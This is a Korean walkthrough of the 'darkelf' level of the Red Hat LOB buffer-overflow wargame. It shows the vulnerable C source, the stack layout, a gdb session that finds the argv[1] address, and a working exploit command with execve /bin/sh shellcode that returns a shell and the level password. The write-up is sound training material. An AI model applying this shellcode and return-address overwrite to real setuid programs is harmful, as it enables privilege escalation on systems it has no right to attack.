 ============================================================================================================
[redhat-lob] (6) darkelf
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> a;

        a [shape=box, label="dummy * 19 + shellcode + (argv[1] address+4*i)"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="(argv[1] address+4*i)"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte)
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)  <
    ----------------
    HIGH    
    ================


|

Buffer Overflow
============================================================================================================


Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함
- argv[1]의 길이가 47이하 이어야 함


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./darkelf `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./darkelf `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/wolfman/darkelf2 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffad8       -1073743144

    (gdb) i reg $ebp
    ebp            0xbffffaf8       -1073743112

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffad8:     0xbffffaf8      0x400309cb      0x00000002      0xbffffb24
    0xbffffae8:     0xbffffb30      0x40013868      0x00000002      0x08048450
    0xbffffaf8:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb08:     0xbffffb24      0x08048390      0x0804864c      0x4000ae60
    0xbffffb18:     0xbffffb1c      0x40013e90      0x00000002      0xbffffc1a
    0xbffffb28:     0xbffffc31      0x00000000      0xbffffc62      0xbffffc84
    0xbffffb38:     0xbffffc8e      0xbffffc9c      0xbffffcbb      0xbffffccb
    0xbffffb48:     0xbffffce4      0xbffffd00      0xbffffd1f      0xbffffd2a
    0xbffffb58:     0xbffffd38      0xbffffd7a      0xbffffd8d      0xbffffda2
    0xbffffb68:     0xbffffdb2      0xbffffdbf      0xbffffddd      0xbffffde8
    0xbffffb78:     0xbffffdf9      0xbffffe0b      0xbffffe1a      0xbffffe22
    0xbffffb88:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffb98:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffba8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbb8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbc8:     0x000001f9      0x0000000c      0x000001f9      0x0000000d
    0xbffffbd8:     0x000001f9      0x0000000e      0x000001f9      0x00000010
    0xbffffbe8:     0x0fabfbff      0x0000000f      0xbffffc15      0x00000000
    0xbffffbf8:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x38366900
    0xbffffc18:     0x682f0036      0x2f656d6f      0x666c6f77      0x2f6e616d
    0xbffffc28:     0x6b726164      0x32666c65      0x61616100      0x61616161
                                                          ^               ^
    0xbffffc38:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^ argv[1] = 0xbffffc41
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc58:     0x61616161      0x61616161      0x454c00bf      0x504f5353
    ==========================================================================

|

RET를 argv[1] 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- dummy*19 + shellcode(21)
    SFP     (4byte)  <- shellcode(4)
    RET     (4byte)  <- argv[1] 주소
    argv[1] (4byte)  
    ----------------
    HIGH    
    ================

|

오버플로우시 RET를 argv[1] 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. argv[1]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.


.. code-block:: console

    $ ./darkelf `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x41\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀A▒▒▒

    bash$ whoami
    darkelf
    bash$ my-pass
    euid = 506
    kernel crashed

